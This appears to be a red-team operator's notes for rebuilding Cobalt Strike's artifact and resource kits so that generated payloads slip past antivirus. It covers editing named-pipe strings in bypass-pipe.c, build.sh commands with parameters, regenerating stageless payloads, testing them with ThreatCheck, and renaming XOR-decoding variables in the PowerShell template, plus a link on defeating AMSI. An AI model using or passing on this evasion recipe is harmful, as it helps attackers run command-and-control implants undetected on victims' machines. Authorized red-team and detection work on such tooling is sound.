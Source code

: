 ### Change bypass-pipe.c
```
vim /opt/cobaltstrike/artifact-kit/src-common/bypass-pipe.c
```

### Edit the following line
- Nothing needs to be changed right now, but might want to change the pipe name part. Example:
```
"%c%c%c%c%c%c%c%c%cnetsvc\\%d"
"%c%c%c%c%c%c%c%c%cprintsvc-%d-server"
```

#### Built artifact kit
- Files should go to the client.
```
./build.sh <techniques> <allocator> <stage> <rdll size> <include resource file> <output directory>
./build.sh pipe VirtualAlloc 277492 5 false false /mnt/c/Tools/cobaltstrike/artifacts
```

#### Load artifact.cna
- Click on Cobalt Strike -> Script Manager -> Load `artifact.cna` from the output directory
- Reload cobaltstrike UI
- Use Payloads -> Windows Stageless Generate All Payloads to replace all 

#### Run threatcheck on payload
```
.\ThreatCheck.exe -f <PAYLOAD>
```

### Resource-kit
- Used to modify script-based payloads including the PowerShell, Python, HTA and VBA templates.
- Location: `cobaltstrike\arsenal-kit\kits\resource`
- Using `template.x64.ps1` is enough.
- Files should go to the client.

#### Change template.x64.ps1
- From --> To
- Change ALL variables in the file
```
for ($zz = 0; $zz -lt $v_code.Count; $zz++) {
	$v_code[$zz] = $v_code[$zz] -bxor 35
}

for ($i = 0; $i -lt $v_service.Count; $i++) {
	$var_service[$i] = $v_service[$i] -bxor 35
}
```

#### Channge compress.ps1
- https://offensivedefence.co.uk/posts/making-amsi-jump/

#### Rebuilt resource kit
```
./build.sh /mnt/c/Tools/cobaltstrike/resources
```

